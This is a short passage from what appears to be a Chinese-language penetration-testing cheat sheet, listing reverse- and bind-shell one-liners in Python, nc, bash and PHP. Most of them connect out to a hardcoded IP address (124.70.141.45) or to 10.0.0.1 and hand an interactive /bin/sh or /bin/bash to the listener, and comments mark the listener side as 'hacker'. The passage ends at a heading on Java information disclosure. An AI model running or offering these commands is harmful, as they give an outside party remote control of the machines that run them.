 ```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("124.70.141.45",9998));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### nc

```shell
# 正向shell
nc -lvvp 9999 -e /bin/bash   
nc Rhost 9999                # hacker
# 反向shell
nc -e /bin/bash 124.70.141.45 9999
nc -lvvp 9999                # hacker
```

### bash

```shell
bash -i >& /dev/tcp/124.70.141.45/9998 0>&1
```

### php

```shell
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```



## JAVA

### 信息泄露

![20210225195910805](/img/20210225195910805.png)
